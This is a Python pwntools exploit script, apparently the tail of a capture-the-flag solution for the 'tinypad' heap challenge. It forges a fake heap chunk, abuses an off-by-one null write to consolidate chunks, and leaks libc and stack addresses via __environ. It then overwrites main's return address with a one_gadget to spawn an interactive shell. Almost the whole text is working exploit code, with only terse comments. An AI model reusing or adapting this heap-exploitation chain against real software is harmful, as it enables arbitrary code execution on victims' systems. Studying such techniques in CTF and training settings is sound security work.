 ```python
    add(0x100, 'd' * 0xf8)  #idx 3

    # create a fake chunk in tinypad's 0x100 buffer, offset 0x20
    tinypad_addr = 0x602040
    fakechunk_addr = tinypad_addr + 0x20
    fakechunk_size = 0x101
    fakechunk = p64(0) + p64(fakechunk_size) + p64(fakechunk_addr) + p64(
        fakechunk_addr)
    edit(3, 'd' * 0x20 + fakechunk)

    # overwrite idx 1's prev_size and
    # set minaddr of size to '\x00'
    # idx 0's chunk size is 0x20
    diff = heap_base + 0x20 - fakechunk_addr
    log.info('diff between idx1 and fakechunk: ' + hex(diff))
    # '\0' padding caused by strcpy
    diff_strip = p64(diff).strip('\0')
    number_of_zeros = len(p64(diff)) - len(diff_strip)
    for i in range(number_of_zeros + 1):
        data = diff_strip.rjust(0x18 - i, 'f')
        edit(1, data)
    delete(2)
    p.recvuntil('\nDeleted.')

    # fix the fake chunk size, fd and bk
    # fd and bk must be unsorted bin
    edit(4, 'd' * 0x20 + p64(0) + p64(0x101) + p64(main_arena + 88) +
         p64(main_arena + 88))

    # 3. overwrite malloc_hook with one_gadget

    one_gadget_addr = libc_base + 0x45216
    environ_pointer = libc_base + libc.symbols['__environ']
    log.info('one gadget addr: ' + hex(one_gadget_addr))
    log.info('environ pointer addr: ' + hex(environ_pointer))
    #fake_malloc_chunk = main_arena - 60 + 9
    # set memo[0].size = 'a'*8,
    # set memo[0].content point to environ to leak environ addr
    fake_pad = 'f' * (0x100 - 0x20 - 0x10) + 'a' * 8 + p64(
        environ_pointer) + 'a' * 8 + p64(0x602148)
    # get a fake chunk
    add(0x100 - 8, fake_pad)  # idx 2
    #gdb.attach(p)

    # get environ addr
    p.recvuntil(' # CONTENT: ')
    environ_addr = p.recvuntil('\n', drop=True).ljust(8, '\x00')
    environ_addr = u64(environ_addr)
    main_ret_addr = environ_addr - 30 * 8

    # set memo[0].content point to main_ret_addr
    edit(2, p64(main_ret_addr))
    # overwrite main_ret_addr with one_gadget addr
    edit(1, p64(one_gadget_addr))
    p.interactive()


if __name__ == "__main__":
    run()
```
